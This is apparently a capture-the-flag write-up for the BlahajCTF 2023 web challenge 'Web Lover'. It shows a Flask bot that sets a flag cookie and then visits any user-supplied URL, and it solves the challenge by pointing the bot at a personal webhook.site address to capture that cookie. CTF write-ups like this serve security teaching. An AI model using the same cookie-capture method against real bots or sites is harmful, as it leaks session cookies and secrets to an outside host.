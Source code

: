 ```yaml
---
title: Web Lover
date: 2023-12-05
tags:
- web
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> Guess blahaj's favourite website and he will give you the flag!

We are given the website and the source code. Looking into the source code, we see that it visits a site and adds a cookie, and that we are supposed to steal the cookie:
```py
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

We simply create your own https://webhook.site, and  go to `/visit?site=https://webhook.site/<insert your id>` and we receive the header:
```
cookie: favorite_site=blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}
```

Funny, as no XSS is even required